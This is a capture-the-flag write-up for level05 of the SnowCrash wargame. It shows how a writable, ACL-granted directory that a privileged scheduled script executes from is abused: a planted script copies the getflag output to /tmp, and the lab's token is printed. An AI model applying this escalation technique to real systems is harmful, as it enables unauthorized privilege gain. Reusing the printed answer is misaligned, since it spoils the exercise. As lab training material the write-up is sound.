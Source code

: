 # Level05

## Walkthrough

First, let's check if some files exist in the home directory.

```bash
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

Nothing.  
Let's try to find files owned by the `flag05` user.

```bash
level05@SnowCrash:~$ find / -type f -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$ cat /rofs/usr/sbin/openarenaserver 
cat: /rofs/usr/sbin/openarenaserver: Permission denied
```

We find a script `/usr/sbin/openarenaserver` which runs any other scripts found in directory `/opt/openarenaserver`, then deletes them after execution.

Let's check if we have the permissions to create a file in this directory.

```bash
level05@SnowCrash:~$ ls -la /opt | grep openarenaserver
drwxrwxr-x+ 2 root root  40 Feb  8 20:41 openarenaserver
```

The directory is owned by user `root` and group `root`, and others can only read or execute...  
But there is more: the trailing `+` character in the permissions means that the file has extended permissions ([ACL](https://en.wikipedia.org/wiki/Access-control_list)).


```bash
level05@SnowCrash:~$ getfacl /opt/openarenaserver/
getfacl: Removing leading '/' from absolute path names
# file: opt/openarenaserver/
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

By reading the output of the `getfacl` command, we notice that the user `level05` has read, write and execute permissions on this directory.  
To obtain the flag, we simply have to create a shell script that will store the result of the `getflag` command in a file.

```bash
level05@SnowCrash:~$ mkdir /tmp/level05 && touch /tmp/level05/result
level05@SnowCrash:~$ chmod 666 /tmp/level05/result
level05@SnowCrash:~$ echo 'getflag > /tmp/level05/result' > /opt/openarenaserver/script.sh
```

But as seen in the previous permissions, we cannot run the `/usr/sbin/openarenaserver` script, maybe it's running on interval?  
Let's wait...  
Unfortunately, nothing happens. Seconds tick by and our script is still present and our `result` file empty. But after 5 or less minutes, our script is deleted and the output of the `getflag` command is printed inside `result`.

```bash
level05@SnowCrash:~$ cat /tmp/level05/result
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Resources

- [What does a + mean at the end of the permissions from ls -l?](https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l)
